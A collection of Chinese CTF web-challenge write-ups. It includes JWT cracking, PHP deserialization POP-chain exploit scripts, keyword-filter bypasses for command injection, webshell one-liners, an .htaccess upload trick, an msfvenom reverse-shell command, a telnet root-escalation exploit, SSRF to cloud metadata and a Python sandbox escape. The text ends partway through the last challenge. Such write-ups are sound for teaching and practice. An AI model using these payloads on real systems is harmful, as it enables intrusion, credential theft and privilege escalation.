## furryctf(复现)

### admin



很明显key是一个jwt，本题靠jwt伪造，发现不知道密钥，试一下直接伪造






发现不行，用hashcat爆破密钥

直接暴力生成 1-4 位密钥（不需要提前生成字典）

更推荐这种方式，因为 `hashcat` 可以直接在内存里生成 1-4 位的所有字符组合，省去了提前生成字典的步骤：

```
hashcat -a 3 -m 16500 D:\tool\jwt.txt ?a?a?a?a -i --increment-min=1 --increment-max=4
```




### DeepSleep





发现输入你好，系统识别不了，那就试试加个双引号改成字符串常量



发现可以识别，发现格式是input，可能是input()动态执行漏洞



看一下源代码的过滤



过滤的还挺干净的，那简单啊，你的验证逻辑都写前端了，那我不就直接抓个包改请求就绕过了



发现后端应该也有过滤，我们可以现在提交的字符串两边加引号变成字符串常量，以此来确定是遇见黑名单就ban还是遇见黑名单就替换：



看起来不是直接ban，只是这些关键字都被替换掉了，那我们能不能绕过呢？

```
__imimportport__('ooss').ssyssystemystem('llss')
```

试试双写绕过



发现好像可以，去掉引号试试



确实可以

```
__imimportport__('ooss').ssyssystemystem('ccatat fflaglag')
```




程序直接提示超时了，而且接下来所有的输入全部都被原样返回了，DeepSleep睡“死”了！

所有的flag都被替换掉了，cat后面只剩下一个空格，怪不得超时了呢

我们需要让后端认为这不是flag，但是bash认为这是flag。

那就想到通配符了，用f?ag




### 下一代有下一代的问题

使用 Wappalyzer 等工具可以发现使用了 Next.js




很快我们就发现这里使用了受影响的 Next.js 16.0.6 版本

之前springctf有一题同样的漏洞利用， CVE-2025-55182 这个核弹级别的 RCE 漏洞




### CCPreview

这是一道很典型的云安全题，云服务提供了元数据服务，允许实例访问自身的配置信息和凭证，攻击者可以利用SSRF漏洞访问这些元数据服务，本题可以**SSRF读取TX元数据**

AWS EC2 实例有一个众所周知的链路本地地址：169.254.169.254



成功了！服务器返回了目录列表

接下来就可以挖IAM凭证了，首先我们先看IAM目录：







得到flag

### babypop

```
class SecurityProvider {
    private $token;
    public function __construct() {
        $this->token = md5(uniqid());
    }
    public function verify($data) {
        if (strpos($data, '..') !== false) {
            die("Attack Detected");
        }
        return $data;
    }
}
class LogService {
    protected $handler;
    protected $formatter;
    
    public function __construct($handler = null) {
        $this->handler = $handler;
        $this->formatter = new DateFormatter();
    }

    public function __destruct() {
        if ($this->handler && method_exists($this->handler, 'close')) {
            $this->handler->close();
        }
    }
}
class FileStream {
    private $path;
    private $mode;
    public $content; 
    public function __construct($path, $mode) {
        $this->path = $path;
        $this->mode = $mode;
    }
    public function close() {
        if ($this->mode === 'debug' && !empty($this->content)) {
            $cmd = $this->content;
            if (strlen($cmd) < 2) return;
            @eval($cmd);
        } else {
            return true;
        }
    }
}
class DateFormatter {
    public function format($timestamp) {
        return date('Y-m-d H:i:s', $timestamp);
    }
}
class UserProfile {
    public $username;
    public $bio;
    public $preference; 

    public function __construct($u, $b) {
        $this->username = $u;
        $this->bio = $b;
        $this->preference = new DateFormatter();
    }
}
class DataSanitizer {
    public static function clean($input) {
        return str_replace("hacker", "", $input);
    }
}
$raw_user = $_POST['user'] ?? null;
$raw_bio = $_POST['bio'] ?? null;
if ($raw_user && $raw_bio) {
    $sec = new SecurityProvider();
    $sec->verify($raw_user);
    $sec->verify($raw_bio);
    $profile = new UserProfile($raw_user, $raw_bio);
    $data = serialize($profile);
    if (strlen($data) > 4096) {
        die("Data too long");
    }
    $safe_data = DataSanitizer::clean($data);
    $unserialized = unserialize($safe_data);
    if ($unserialized instanceof UserProfile) {
        echo "Profile loaded for " . htmlspecialchars($unserialized->username);
    }
}
```

首先是接收我们POST传入的user和bio 参数然后创建一个UserProfile对象，之后将对象序列化成字符串，调用DataSanitizer::clean函数进行过滤，将过滤后的字符 反序列化，如果反序列化成功，脚本结束时会触发__destruct销毁对象

题目呢告诉我们说flag在/flag

首先要找到能执行命令的地方，在FileStream类中发现了eval()

找调用FileStream的close()方法，发现LogService类

如果我们构造一个 LogService 对象，并把它的 $handler 属性设置为上面的 FileStream 对象，那么脚本结束时，就会调用close()方法

UserProfile类：

```
class UserProfile {
    public function __construct($u, $b) {
        $this->username = $u;
        $this->bio = $b;
        $this->preference = new DateFormatter();
    }
}
```

preference属性被写死为DateFormatter类而它是无害的，我们需要想办法把这个preference替换成我们构造好的恶意的LogService对象

而我们只能控制$u和$b，所以我们还需一个方法，在DataSanitizer类中有这么一个方法：

```
public static function clean($input) {
        return str_replace("hacker", "", $input);
}
```

它的作用是将hacker替换位空字符，比如说s:6:"hacker"会被替换成s:6:""，所以这里需要将字符串逃逸出来，利用个特性让username吃掉后面的代码，直到吃到bio的内容里去，然后我们在bio里提前写好恶意的preference对象

所以我们可以先准备恶意的POP链对象：

```
$f = new FileStream('exploit.log', 'debug');
$f->content = 'system("cat /flag");';
$l = new LogService($f);
$bad = serialize($l); 
```

每输入一个hacker，在序列化串里长度是6，但实际变成空，所以每有一个hacker，我们可以吃掉6个字符，所以我们的目标是要吃掉的字符总数必须是6的倍数

所以我们可以按照做个思路编写一个Exp脚本：

```
<?php
// 1. 复用目标系统中的类结构（反序列化必须依赖这些类的定义）
class LogService {
    protected $handler;
    protected $formatter;
    public function __construct($h = null) {
        $this->handler = $h; // 接收FileStream实例
        $this->formatter = new DateFormatter();
    }
}
class FileStream {
    private $path;
    private $mode;
    public $content; 
    public function __construct($p, $m) {
        $this->path = $p;
        $this->mode = $m; // 需设为'debug'才能触发eval
    }
}
class DateFormatter {} // 空类，仅为满足实例化要求

// 2. 构造恶意FileStream实例（代码执行的核心）
$f = new FileStream('exploit.log', 'debug'); // mode设为'debug'（满足close()执行条件）
$f->content = 'system("cat /flag");'; // 要执行的恶意命令：读取/flag文件

// 3. 构造LogService实例（触发FileStream::close()的桥梁）
$l = new LogService($f); // 把恶意FileStream赋值给handler属性

// 4. 序列化恶意LogService实例，得到恶意序列化字符串
$bad = serialize($l);

// 5. 核心：构造绕过防护的POST参数（最关键的部分）
for ($i = 0; $i < 2000; $i++) {
    // 生成i个"A"作为填充字符（用于对齐序列化字符串结构）
    $pad = str_repeat("A", $i);
    
    // 构造bio参数：拼接填充字符 + 篡改preference属性的序列化片段 + 恶意序列化字符串 + 闭合符
    // 目的：把UserProfile的preference属性从DateFormatter替换为恶意LogService
    $bio = $pad . '";s:10:"preference";' . $bad . ';}';
    
    // 构造eat变量：匹配UserProfile序列化字符串的结构，计算bio的长度并填充
    // 格式对应：";s:3:"bio";s:【bio长度】:"【填充字符】
    $eat = '";s:3:"bio";s:' . strlen($bio) . ':"' . $pad;
    
    // 关键判断：eat的长度必须是6的倍数（因为"hacker"长度=6）
    if (strlen($eat) % 6 === 0) {
        // 构造user参数：用多个"hacker"拼接（长度=eat的长度）
        // 目标代码的DataSanitizer::clean()会把"hacker"替换为空，替换后刚好清空这部分，不破坏序列化结构
        $user = str_repeat("hacker", strlen($eat) / 6);
        
        // 输出可直接提交的POST参数（urlencode处理bio避免特殊字符问题）
        echo "user=" . $user . "&bio=" . urlencode($bio);
        break; // 找到符合条件的长度后退出循环
    }
}
?>
```

目标页面执行流程：

- `SecurityProvider`验证：参数中无`..`，通过；
- 创建`UserProfile`实例并序列化；
- `DataSanitizer::clean()`把 user 中的 "hacker" 替换为空，序列化字符串结构仍完整；
- 反序列化`$safe_data`：此时 UserProfile 的`preference`已被替换为恶意 LogService 实例；
- 脚本执行结束，LogService 对象销毁，触发`__destruct()`方法，调用`handler->close()`；
- FileStream 的`close()`方法执行`eval($content)`，最终执行`system("cat /flag")`，读取 /flag 文件。

### SSO Drive

题目提示备份文件泄露



尝试www.zip发现404，用/index.php.bak发现源码

```
<?php
// Backup 2026-01-20 by Dev Team
// TODO: Fix the comparison logic later?
session_start();
$REAL_PASSWORD = 'THIS_IS_A_VERY_LONG_RANDOM_PASSWORD_THAT_CANNOT_BE_BRUTEFORCED_882193712';
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $u = $_POST['username'];
    $p = $_POST['password'];
    if ($u === 'admin') {
        // Dev Note: using strcmp for binary safe comparison
        if (strcmp($p, $REAL_PASSWORD) == 0) {
            $_SESSION['is_admin'] = true;
            header("Location: dashboard.php");
            exit;
        } else {
            $error = "Password Wrong";
        }
    }
}
?>
```

发现是个strcmp函数，当strcmp($a, $b) 用于比较两个字符串，如果$a等于$b，它返回0当strcmp()的参数类型不正确时会抛出一个 Warning 警告，但函数返回值会是NULL，因此我们可以将密码构造成数组，密码随便输，strcmp将数组和正确密码比较发现参数类型不对就会返回NULL，而NULL==0是成立的，因此就可以使其绕过登录成功

```
username=admin&password[]=123
```

登录成功后进来发现是个文件上传：



但是发现怎么都传不上去

首先，php后缀被过滤了，apache常见解析的后缀比如php5、phtml这些也不行，猜测是白名单，传伪装的jpg也不行提示说不是图片数据，所以我们加一个GIF89a的头伪装成GIF图，然后又说有php代码，于是我们用短标签，成功上传了

```
<? @eval($_POST['a']);?>
```

考虑到这题是apache，用.htaccess试试

.htaccess的语法的原因不能使用GIF89a，那有没有图片头是可以满足它的语法的呢？XBM图片头满足，它的头和.htaccess的语法的注释一样，所以我们在.htaccess文件开头加上XBM头，上传成功

```PHP
#define width 1
#define height 1
AddType application/x-httpd-php .png
php_flag engine on
```



打开start.sh发现flag被拆成了3份，flag1在根目录，flag2在web目录的.flag2_hidden内，flag3在root内

说明要进行提权

只能用msf写一个反弹shell的马，

```
sudo msfvenom -p linux/x64/shell_reverse_tcp LHOST=ip LPORT=port -f elf -o shell.elf
```



上传 shell.elf 到蚁剑

赋予执行权限并运行

```
chmod +x /var/www/html/uploads/shell.elf
/var/www/html/uploads/shell.elf
```

先看看有哪些进程

```
ps -aux
```



发现有个xinetd服务，再看看开了哪些端口

```
netstat -antp
```

这里发现了个telnet服务，题目说了为了兼容旧系统，他们不得不在服务器后台运行了一个陈旧服务用于内部远程管理，我们看一下telnet的版本号，联想到题目说的陈旧服务，再结合最近披露的CVE-2026-24061的提权漏洞提到的版本号吻合

exp:

```
<?php
$s = fsockopen("127.0.0.1", 23);
if(!$s) die();
stream_set_blocking($s, 1);
stream_set_timeout($s, 2);
$p = "\xff\xfa\x27\x00\x00USER\x01-f root\xff\xf0";
while(!feof($s)) {
    $c = fgetc($s);
    if($c === false) break;
    if($c == "\xff") {
        $o = fgetc($s);
        if($o == "\xfd") {
            $t = fgetc($s);
            if($t == "\x27") fwrite($s, "\xff\xfb\x27");
            else fwrite($s, "\xff\xfc".$t);
        } elseif($o == "\xfa") {
            if(fgetc($s) == "\x27") {
                while(fgetc($s) != "\xf0");
                fwrite($s, $p);
                sleep(1);
                fwrite($s, "cat /root/flag3\n");
            }
        } elseif($o == "\xfe" || $o == "\xfb" || $o == "\xfc") {
            fgetc($s);
        }
    } else {
        echo $c;
    }
}
fclose($s);
?>
```


## **SHCTF**

### **calc?js?fuck!**


网站是个计算机

后端将输入 `expr` 直接丢进 `eval()` 执行：

- **WAF 规则：** `/^[012345679!\.\-\+\*\/\(\)\[\]]+$/`
- **允许字符：** 数字 `0-7` 和 `9`（没有 `8` ），以及符号 `! . - + * / ( ) [ ]`。
- **禁止内容：** 所有英文字母、引号、以及数字 `8`

用js fuck构造

```
[].flat.constructor("return process.mainModule.require('child_process').execSync('cat /flag').toString()")()
```

// 完整代码拆解
[].flat          // 部分1：空数组调用 flat 方法（仅取方法引用，不执行）
.constructor     // 部分2：取 flat 方法的构造函数
("return process.mainModule.require('child_process').execSync('cat /flag').toString()")  // 部分3：传给构造函数的字符串参数
()               // 部分4：执行构造出的函数

直接写 `Function` → 会被拦截；

直接写 `eval` → 会被拦截；

直接写 `require`/`execSync` → 也可能被拦截




### **05_em_v_CFK**

查看源代码发现一串代码，居然是Rot13和bash64编码





dirsearch扫一下 出来个目录`/uploads/`

带上参数访问http://challenge.shc.tf:31626/uploads/shell.php?show=1

```
<?php  
  
if (isset($_GET['show'])) {    highlight_file(__FILE__);  
}  
  
$pass = 'c4d038b4bed09fdb1471ef51ec3a32cd';  
  
if (isset($_POST['key']) && md5($_POST['key']) === $pass) {  
    if (isset($_POST['cmd'])) {        system($_POST['cmd']);  
    } elseif (isset($_POST['code'])) {  
        eval($_POST['code']);  
    }  
} else {    http_response_code(404);  
}
```

key 的 MD5 必须等于 c4d038b4bed09fdb1471ef51ec3a32cd ， 在线网站碰撞得到114514。 





写个马，用蚁剑链接，直接文件管理修改index.php余额发现无法成功修改，那就先复制index.php，删除index.php再建一个index.php,修改金额为100后再次上传，成功上传



方法2、

index.php

```
<?php
include 'connect.php';

$my_money = 3.00;
$msg = "";
$target_id = 0;

if (isset($_POST['buy']) && isset($_POST['item_id'])) {
    $target_id = (int)$_POST['item_id'];

    if ($target_id > 0) {
        try {
            $stmt = $pdo->prepare("CALL buy_item(?, ?)");
            $stmt->execute([$target_id, $my_money]);
            $res = $stmt->fetch();
            $msg = $res['final_message'];
            $my_money -= $res['current_price'];
        } catch (Exception $e) {
            $msg = "Transaction Error: " . $e->getMessage();
        }
    } else {
        $msg = "Invalid item selected.";
    }
} else {
    try {
        $stmt = $pdo->query("SELECT id, name, price FROM goods ORDER BY id ASC");
        if ($stmt === false) {
            exit;
        }
        $goods_list = $stmt->fetchAll();
    } catch (Exception $e) {
        die("Error fetching goods list.");
    }
}
?>
```

`$target_id = (int)$_POST['item_id'];` (int)强制转换防止SQL注入和类型错误

关键地方:

```
 if ($target_id > 0) {
        try {
            $stmt = $pdo->prepare("CALL buy_item(?, ?)"); 
            利用这一个第一个问号为$target_id  第二个?为$my_money
            $stmt->execute([$target_id, $my_money]);
            $res = $stmt->fetch();
```

$stmt = $pdo->prepare("CALL buy_item(?, ?)");

- $pdo：是 PHP 连接数据库的 PDO 实例（已提前完成数据库连接）；

- prepare()：预处理方法，作用是把 “调用存储过程 buy_item” 的 SQL 语句发送给数据库编译，提升执行效率（多次调用时更明显），同时防止 SQL 注入；

- `CALL buy_item(?, ?)`：SQL 语法，调用名为 `buy_item` 的存储过程，`?` 是参数占位符（第一个对应商品 ID，第二个对应金额）。

  

$stmt->execute([$target_id, $my_money]);

- execute()：执行预处理好的语句；

- 传入的数组 [$target_id, $my_money] 会按顺序替换 

  prepare 中的两个 ?：

  - 第一个 ? → $target_id（商品 ID）；
  - 第二个 ? → $my_money（用户当前金额）；

- 这一步是真正触发数据库执行 buy_item 存储过程的操作。

  

$res = $stmt->fetch();

- `fetch()`：从执行结果集中获取**一行数据**（存储过程 `buy_item` 执行后通常会返回结果，比如购买是否成功、剩余金额、商品信息等）；
- $res 最终是一个数组（默认是关联 + 索引数组），比如 ['status' => 1, 'remain_money' => 50]，具体结构由 buy_item 存储过程的返回值决定。

payload:

```
key=114514&code=include('../connect.php'); $a=$pdo->query("CALL buy_item(3, 50)");while($b=$a->fetch()){var_dump($b);}
```


或者使用Update来修改数据



```Plaintext
key=114514&code=include('../connect.php');$pdo->query("UPDATE goods SET price=0 WHERE id=3");echo "done";
```


###  **ez_race**

先打开题目给的附件中的view.py

```
import os
import time
from django.contrib.auth.mixins import LoginRequiredMixin
from django.http import HttpResponse
from django.shortcuts import redirect
from django.urls import reverse_lazy
from django.views import generic
from . import forms, models
from django.contrib.auth.decorators import login_required
from django.db import transaction
from django.db.utils import OperationalError
from django.views.decorators.http import require_POST
from django.db.models import F

class WithdrawView(LoginRequiredMixin, generic.FormView):
    template_name = "withdraw.html"
    form_class = forms.WithdrawForm
    success_url = reverse_lazy("withdraw")

    def get_form_kwargs(self):
        kwargs = super().get_form_kwargs()
        kwargs["user"] = self.request.user
        return kwargs

    def form_valid(self, form):
        amount = form.cleaned_data["amount"]
        with transaction.atomic():
            time.sleep(1.0)
            user = models.User.objects.get(pk=self.request.user.pk)
            if user.money >= amount:
                user.money = F('money') - amount
                user.save()
                models.WithdrawLog.objects.create(user=user, amount=amount)
        
        user.refresh_from_db()
        if user.money < 0:
            return HttpResponse(os.environ.get("FLAG", "flag{flag_test}"))
            
        return redirect(self.get_success_url())

class RechargeView(LoginRequiredMixin, generic.FormView):
    template_name = "recharge.html"
    form_class = forms.RechargeForm
    success_url = reverse_lazy("recharge")

    def get_form_kwargs(self):
        kwargs = super().get_form_kwargs()
        kwargs["user"] = self.request.user
        return kwargs

    def form_valid(self, form):
        amount = form.cleaned_data["amount"]
        with transaction.atomic():
            user = models.User.objects.get(pk=self.request.user.pk)
            user.money = F('money') + amount
            user.save()
            models.RechargeLog.objects.create(user=user, amount=amount)
        return redirect(self.get_success_url())

@login_required
def buy_flag(request):
    price = 50
    with transaction.atomic():
        u = models.User.objects.get(pk=request.user.pk)
        if u.money >= price:
            u.money = F('money') - price
            u.save()
            return HttpResponse(os.environ.get("FLAG", "flag{flag_test}"))
    return HttpResponse("余额不足")

@login_required
def buy_love(request):
    price = 5
    with transaction.atomic():
        u = models.User.objects.get(pk=request.user.pk)
        if u.money >= price:
            u.money = F('money') - price
            u.save()
            return HttpResponse("love❤")
    return HttpResponse("余额不足")

def flag_view(request):
    if not request.user.is_authenticated:
        return redirect("login")
    if request.user.money < 0:
        return HttpResponse(os.environ.get("FLAG", "flag{flag_test}"))
    return HttpResponse("条件未满足")

@login_required
def reset_view(request):
    request.user.money = 0
    request.user.save()
    models.RechargeLog.objects.filter(user=request.user).delete()
    models.WithdrawLog.objects.filter(user=request.user).delete()
    return HttpResponse("OK")

@login_required
def status_view(request):
    return HttpResponse(str(request.user.money))
```

利用`time.sleep(1.0)`和`if user.money >= amount:` 来满足`if user.money < 0: return HttpResponse(os.environ.get("FLAG", "flag{flag_test}"))`

用burpsuit并发多个提现请求来使余额为负数




### Ezphp

```
<?php

highlight_file(__FILE__);
error_reporting(0);

class Sun{
    public $sun;
    public function __destruct(){
        die("Maybe you should fly to the ".$this->sun);
    }
}

class Solar{
    private $Sun;
    public $Mercury;
    public $Venus;
    public $Earth;
    public $Mars;
    public $Jupiter;
    public $Saturn;
    public $Uranus;
    public $Neptune;
    public function __set($name,$key){
        $this->Mars = $key;
        $Dyson = $this->Mercury;
        $Sphere = $this->Venus;
        $Dyson->$Sphere($this->Mars);
    }
    public function __call($func,$args){
        if(!preg_match("/exec|popen|popens|system|shell_exec|assert|eval|print|printf|array_keys|sleep|pack|array_pop|array_filter|highlight_file|show_source|file_put_contents|call_user_func|passthru|curl_exec/i", $args[0])){
            $exploar = new $func($args[0]);
            $road = $this->Jupiter;
            $exploar->$road($this->Saturn);
        }
        else{
            die("Black hole");
        }
    }
}

class Moon{
    public $nearside;
    public $farside;
    public function __tostring(){
        $starship = $this->nearside;
        $starship();
        return '';
    }
}

class Earth{
    public $onearth;
    public $inearth;
    public $outofearth;
    public function __invoke(){
        $oe = $this->onearth;
        $ie = $this->inearth;
        $ote = $this->outofearth;
        $oe->$ie = $ote;
    }
}


if(isset($_POST['travel'])){
    $a = unserialize($_POST['travel']);
    throw new Exception("How to Travel?");
}

```

1. **起点**：`Sun` 类在销毁时触发 `__destruct`。
   1. `$sun = new Sun();`
   2. `$sun->sun = $moon;` (触发 `Moon::__toString`)
2. **跳板 1**：`Moon` 类转换为字符串。
   1. `$moon = new Moon();`
   2. `$moon->nearside = $earth;` (触发 `Earth::__invoke`)
3. **跳板 2**：`Earth` 类被当作函数调用。
   1. `$earth = new Earth();`
   2. `$earth->onearth = $solar1;` (目标对象)
   3. `$earth->inearth = "AnyProp";` (不存在的属性名，用于触发 `__set`)
   4. `$earth->outofearth = "/flag";` (我们要读取的文件名，将作为值传递给 `__set`)
4. **跳板 3**：`Solar` 类处理属性赋值触发 `__set`。
   1. `$solar1 = new Solar();`
   2. `$solar1->Mercury = $solar2;` (下一个 Solar 对象，用于触发 `__call`)
   3. `$solar1->Venus = "SplFileObject";` (方法名)
   4. 逻辑解释：`Solar::__set` 执行 `$this->Mercury->{$this->Venus}($key)`。即 `$solar2->SplFileObject("/flag")`。
   5. 由于 `Solar` 类没有 `SplFileObject` 方法，触发 `solar2` 的 `__call`。
5. **终点**：`Solar::__call` 实例化类并利用。
   1. `$solar2 = new Solar();`
   2. `$func` 接收到的方法名是 `SplFileObject`。
   3. `$args[0]` 接收到的参数是 `/flag`。
   4. 实例化：`$exploar = new SplFileObject("/flag");` (绕过了黑名单，完全合法)
   5. 调用方法：`$road = $this->Jupiter;`
   6. `$solar2->Jupiter = "fpassthru";` (利用 `SplFileObject::fpassthru` 输出文件内容)
   7. `$solar2->Saturn = null;` (参数)
   8. 最终执行：`$exploar->fpassthru(null);`，将 `/flag` 内容输出到缓冲区。


在正常 PHP 代码中读取 `/flag`:

```
<?php
$fileObj = new SplFileObject("/flag"); // 实例化类，打开/flag文件
$fileObj->fpassthru(); // 读取文件所有内容并直接输出
?>
```


如何绕过throw Exception销毁对象从而调用destruct方法，否则你的序列化代码传不进去。

在 PHP 中，反序列化生成的对象通常存储在变量 $a 中。如果没有外部干扰，这些对象要等到整个脚本执行结束才会销毁并触发 __destruct。但因为中间隔了一个 throw new Exception，脚本还没到自然结束的那一刻就“崩”了，导致析构函数里的代码没机会把结果发出来


exp:

```
<?php
class Sun { public $sun; }
class Moon { public $nearside; }
class Earth { public $onearth; public $inearth; public $outofearth; }
class Solar { public $Mercury; public $Venus; public $Jupiter; public $Saturn; public $Mars; }
 
// --- 正常构造链条 ---
$inner = new Solar();
$inner->Jupiter = "fpassthru";
$inner->Saturn = 0;
 
$outer = new Solar();
$outer->Mercury = $inner;
$outer->Venus = "SplFileObject";
 
$earth = new Earth();
$earth->onearth = $outer;
$earth->inearth = "trigger";//不存在的方法
$earth->outofearth = "/flag";
 
$moon = new Moon();
$moon->nearside = $earth;
 
$sun = new Sun();
$sun->sun = $moon;
 
$ser = serialize($sun);
 
// --- 关键：构造数组覆盖，绕过 Exception ---
// 我们创建一个 a:2 (两个元素的数组)，两个 key 都是 i:0
$fast_destruct_payload = 'a:2:{i:0;' . $ser . ';i:0;i:0;}';
 
echo "--- 绕过 Exception 的 Payload ---\n";
echo urlencode($fast_destruct_payload);
?>
```

方法2、

exp:

```
<?php
$solB = new Solar();
$solB->Jupiter = "invoke";
$solB->Saturn = "/flag";

$solA = new Solar();
$solA->Mercury = $solB;
$solA->Venus = "ReflectionFunction";

$earth = new Earth();
$earth->onearth = $solA;
$earth->inearth = "Sun";
$earth->outofearth = "readfile";

$moon = new Moon();
$moon->nearside = $earth;

$sun = new Sun();
$sun->sun = $moon;

$a = array(0 => $sun, 1 => "trigger");
$payload = serialize($a);
$payload = str_replace('i:1;s:7:"trigger";', 'i:0;s:7:"trigger";', $payload);

echo urlencode($payload);
?>
```

核心代码执行：

```
new ReflectionFunction('readfile')->invoke('/flag');
```

`ReflectionFunction`：PHP 内置反射类，用于操作函数（不在黑名单）；

`ReflectionFunction('readfile')`：实例化反射类，绑定`readfile`函数（读取文件内容并输出，不在原代码的黑名单中）；

`->invoke('/flag')`：调用反射类的`invoke`方法，执行绑定的`readfile`函数，参数为`/flag` → 最终读取并输出 /flag 文件内容。


### Eazy_Pyrunner

点击关于功能发现进行了GET传参：http://challenge.shc.tf:31952/?file=pages/about.html

看这个参名猜测可以读文件：http://challenge.shc.tf:31952/?file=app.py

app.py：

```
  
from flask import Flask, render_template_string, request, jsonify
import subprocess
import tempfile
import os
import sys
  
app = Flask(__name__)
  
@app.route('/')
def index():
    file_name = request.args.get('file', 'pages/index.html')
    try:
        with open(file_name, 'r', encoding='utf-8') as f:
            content = f.read()
    except Exception as e:
        with open('pages/index.html', 'r', encoding='utf-8') as f:
            content = f.read()
    return render_template_string(content)
  
def waf(code):
    blacklisted_keywords = ['import', 'open', 'read', 'write', 'exec', 'eval', '__', 'os', 'sys', 'subprocess', 'run', 'flag', '\'', '\"']
    for keyword in blacklisted_keywords:
        if keyword in code:
            return False
    return True    
  
@app.route('/execute', methods=['POST'])
def execute_code():
    code = request.json.get('code', '')
    if not code:
        return jsonify({'error': '请输入Python代码'})
    if not waf(code):
        return jsonify({'error': 'Hacker!'})
    try:
        with tempfile.NamedTemporaryFile(mode='w', suffix='.py', delete=False) as f:
            f.write(f"""import sys
  
sys.modules['os'] = 'not allowed'
  
def is_my_love_event(event_name):
    return event_name.startswith("Nothing is my love but you.")
  
def my_audit_hook(event_name, arg):
    if len(event_name) > 0:
        raise RuntimeError("Too long event name!")
    if len(arg) > 0:
        raise RuntimeError("Too long arg!")
    if not is_my_love_event(event_name):
        raise RuntimeError("Hacker out!")
  
__import__('sys').addaudithook(my_audit_hook)
  
{code}""")
            temp_file_name = f.name
        result = subprocess.run(
            [sys.executable, temp_file_name],
            capture_output=True,
            text=True,
            timeout=10
        )
        os.unlink(temp_file_name)
        return jsonify({
            'stdout': result.stdout,
            'stderr': result.stderr
        })
    except subprocess.TimeoutExpired:
        return jsonify({'error': '代码执行超时（超过10秒）'})
    except Exception as e:
        return jsonify({'error': f'执行出错: {str(e)}'})
    finally:
        if os.path.exists(temp_file_name):
            os.unlink(temp_file_name)
  
if __name__ == '__main__':
    app.run(debug=True)
```

发现`len` 和 `is_my_love_event` 是通过名称查找调用的全局函数，并不是 Python 内置的函数引用，所以可以被我们重定义：

```
def len(x):
    return 0  # 让 len(event_name) > 0 永远为 False
def is_my_love_event(x):
    return True  # 让检查永远通过
```

发现是典型的沙盒逃逸的利用，存在黑名单，需要绕过，我们先打印看看有哪些内置函数可以使用

```
print(list(dict(vars()).keys()))
或print(dir())
```



这里可以利用`chr()`函数构造字符串来绕过关键字

```
s = globals()[chr(115)+chr(121)+chr(115)]  # sys
m = getattr(s, chr(109)+chr(111)+chr(100)+chr(117)+chr(108)+chr(101)+chr(115))  # modules
print(list(m.keys()))
# ['sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings','_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external','time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings','encodings.utf_8', '_signal', '_abc', 'abc', 'io', '__main__', '_stat','stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os','_sitebuiltins', 'site']
```

发现不能直接用`os`模块，但是`posixpath`模块有`os`属性

```
# 1. 从 sys.modules 中获取 posixpath 模块
pp = m[chr(112)+chr(111)+chr(115)+chr(105)+chr(120)+chr(112)+chr(97)+chr(116)+chr(104)]  # posixpath
# 2. 通过 posixpath.os 获取原始的 os 模块
o = getattr(pp, chr(111)+chr(115))  # os
# 3. 现在就可以正常使用 os.listdir 等函数了
ld = getattr(o, chr(108)+chr(105)+chr(115)+chr(116)+chr(100)+chr(105)+chr(114))  # listdir
print(ld(chr(47)))  # 列出根目录 /
```

exp:

```
def len(x):
    return 0
def is_my_love_event(x):
    return True
s = globals()[chr(115)+chr(121)+chr(115)]
m = getattr(s, chr(109)+chr(111)+chr(100)+chr(117)+chr(108)+chr(101)+chr(115))
pp = m[chr(112)+chr(111)+chr(115)+chr(105)+chr(120)+chr(112)+chr(97)+chr(116)+chr(104)]
o = getattr(pp, chr(111)+chr(115))
ld = getattr(o, chr(108)+chr(105)+chr(115)+chr(116)+chr(100)+chr(105)+chr(114))  # listdir
print(ld(chr(47)))  # /
# ['bin', 'boot', 'dev', 'etc', 'flag', 'home', 'lib', 'lib64','media', 'mnt', 'opt', 'proc', 'read_flag', 'root', 'run','sbin', 'srv', 'sys', 'tmp', 'usr', 'var']
```

发现无权限查看flag，执行read_flag

exp:

```
def len(x):
    return 0
def is_my_love_event(x):
    return True
s = globals()[chr(115)+chr(121)+chr(115)]
m = getattr(s, chr(109)+chr(111)+chr(100)+chr(117)+chr(108)+chr(101)+chr(115))
pp = m[chr(112)+chr(111)+chr(115)+chr(105)+chr(120)+chr(112)+chr(97)+chr(116)+chr(104)]
o = getattr(pp, chr(111)+chr(115))
sy = getattr(o, chr(115)+chr(121)+chr(115)+chr(116)+chr(101)+chr(109))  # system
sy(chr(47)+chr(114)+chr(101)+chr(97)+chr(100)+chr(95)+chr(102)+chr(108)+chr(97)+chr(103))  # /read_flag
# SHCTF{af641d0f-00ad-4db4-b27b-46b57feddc22}
```

### **Mini Blog**

`/create`是发布文章的接口，内容用的xml，尝试打xxe




### Go 

考的是waf和go之间的差异，构造payload的想法是能过waf但是又能被go识别

考虑到是go语言， Go 标准库中的 JSON、XML（以及流行的第三方 YAML）解析器在处理非受信数据时，存在一些设计上或默认行为上的“特性”，这些“特性”在特定场景下很容易被攻击者利用，演变成严重的安全漏洞。此处Go JSON 解析器最关键的缺陷之一，因为它与几乎所有其他主流语言的 JSON 解析器行为都不同（它们通常是严格大小写敏感的）。攻击者可以轻易构造 payload，如 {"action": "UserAction", "aCtIoN": "AdminAction"}，利用这种差异性绕过权限检查。

改掉 Key 的大小写，WAF 可能认不出来

\>这里就是改role为Role，猜测后端waf检测的是role的值，不检测Role的值





###  **sudoooo0**



提示有个shell

先扫描，发现webshell.php

无任何回显 还得fuzz参数





确定是cmd，直接写个木马

```
file_put_contents('1.php', '<?php @eval($_POST[\'a\']);?>');
```

在`/docker-entrypoint.sh`发现了这题的解题方向

```
#!/bin/bash
set -e
echo 0 > /proc/sys/kernel/yama/ptrace_scope || true

if [ "$A1CTF_FLAG" ]; then
    INSERT_FLAG="$A1CTF_FLAG"
    unset A1CTF_FLAG
elif [ "$SHCTF_FLAG" ]; then
    INSERT_FLAG="$SHCTF_FLAG"
    unset SHCTF_FLAG
elif [ "$GZCTF_FLAG" ]; then
    INSERT_FLAG="$GZCTF_FLAG"
    unset GZCTF_FLAG
elif [ "$FLAG" ]; then
    INSERT_FLAG="$FLAG"
    unset FLAG
else
    INSERT_FLAG="SHCTF{!!!!_FLAG_ERROR_ASK_ADMIN_!!!!}"
fi

rm -f /flag
echo "$INSERT_FLAG" > /flag
chmod 400 /flag
chown root:root /flag

NEWPASS=$(head -c 24 /dev/urandom | tr -cd 'A-Za-z0-9' | head -c 16)
echo "ctf:${NEWPASS}" | chpasswd
